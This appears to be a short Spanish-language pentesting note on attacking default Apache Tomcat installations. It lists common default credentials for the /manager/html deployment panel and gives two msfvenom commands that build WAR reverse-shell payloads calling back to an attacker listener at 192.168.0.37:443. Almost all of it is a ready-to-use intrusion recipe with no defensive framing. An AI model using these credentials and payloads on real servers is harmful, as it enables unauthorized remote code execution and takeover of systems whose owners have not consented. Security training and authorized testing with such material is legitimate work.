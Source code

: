Nada mas acceder a un servidor con Tomcat instalado veremos la siguiente página siempre y cuando la instalación se encuentre por defecto.


![[1. TOMCAT.jpg]]

>[!note] Default credentials 
>The most interesting path of Tomcat is _**/manager/html**_, inside that **path you can upload and deploy war files** (execute code). But this path is protected by basic HTTP auth, the most common credentials are: 
>- admin:admin 
>- tomcat:tomcat 
>- admin:s3cr3t 
>- tomcat:s3cr3t 
>- admin:tomcat
>- admin: <span style="color:rgb(255, 192, 0)">NOTHING</span>

Mediante los siguientes comandos podremos crear un payload malicioso con MSFVENOM con tal de conseguir una ReverseShell.

````
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o reversel.war
`````

Si no nos funciona con el primero, tendremos que usar el siguiente:

````
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o reverse2.war
`````


